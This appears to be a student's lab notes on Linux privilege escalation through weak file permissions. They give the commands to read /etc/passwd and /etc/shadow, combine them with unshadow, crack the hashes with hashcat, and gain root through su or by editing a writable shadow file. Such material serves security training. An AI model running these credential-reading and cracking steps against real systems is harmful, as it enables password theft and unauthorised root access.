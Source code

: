 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Weak File Permissions</title>
</head><body>Escalation via weak file permissions<br/>
<br/>
looking for access to files we should R-W-X. This is when permission to file can be consdiered excessive<br/>
<br/>
<b>ls -la /etc/shadow</b> <br/>
<br/>
etc/shadow + etc/pass<br/>
<br/>
<b>cat /etc/passwd</b> <br/>
<br/>
<b>cat /etc/shadow</b><br/>
<br/>
extract the data. copy to files<br/>
<br/>
ie; passwd.txt &amp; shadow.txt<br/>
<br/>
unshadow<br/>
<br/>
<b>unshadow &lt;PASSWORD-FILE&gt; &lt;SHADOW-FILE&gt; &gt; unshadowed.txt</b> <br/>
<br/>
john the ripper or hashcat<br/>
<br/>
hashcat requires knowing the hash type. use google..<br/>
<br/>
<br/>
<br/>
<b>hashcat -m 1800 unshadowed.txt rockyou.txt -O</b> <br/>
<br/>
bam passwords<br/>
then <b>su</b><br/>
<br/>
if we ahave the ability to modify the shadow file, just cahnge yourself to root, user 0<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
ls -la /etc/shadow<br/>
2. Note the file permissions<br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: cat /etc/passwd<br/>
2. Save the output to a file on your attacker machine<br/>
3. In command prompt type: cat /etc/shadow<br/>
4. Save the output to a file on your attacker machine<br/>
<br/>
Attacker VM<br/>
<br/>
1. In command prompt type: unshadow &lt;PASSWORD-FILE&gt; &lt;SHADOW-FILE&gt; &gt; unshadowed.txt<br/>
<br/>
Now, you have an unshadowed file. We already know the password, but you can use your favorite hash cracking tool to crack dem hashes. For example:<br/>
<br/>
hashcat -m 1800 unshadowed.txt rockyou.txt -O<br/>
</body></html>